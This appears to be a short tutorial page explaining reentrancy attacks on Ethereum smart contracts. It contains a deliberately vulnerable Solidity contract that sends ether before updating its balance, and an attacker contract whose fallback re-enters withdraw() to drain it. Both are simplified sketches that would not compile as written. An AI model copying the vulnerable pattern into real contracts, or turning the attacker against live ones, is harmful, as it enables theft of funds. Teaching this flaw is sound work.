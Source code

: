 


# Understanding Reentrancy Attacks in Ethereum Smart Contracts

## Introduction

- **Topic**: Reentrancy attack in smart contracts
- **Ecosystem**: Primarily in Ethereum
- **Attack Type**: Contract-to-contract attack

## Basic Concept

- Related to the atomic behavior of statements in smart contracts
- Exploits the order of execution in contract functions

## Example Scenario

### Vulnerable Contract: Fund Manager

```solidity
contract FundManager {
    uint funds = 1000;  // Total funds in the contract

    function withdraw() public {
        if (funds > 0) {
            // Transfer 1 ether to the caller
            send(1 ether);
            // Update the balance
            funds = funds - 1;
        }
    }
}
```

### Attacker Contract

```solidity
contract Attacker {
    FundManager public fundManager;
    uint localFunds = 0;

    function attack() public {
        fundManager.withdraw();
    }

    // Fallback function
    fallback() external payable {
        if (address(fundManager).balance > 0) {
            fundManager.withdraw();
        }
    }
}
```
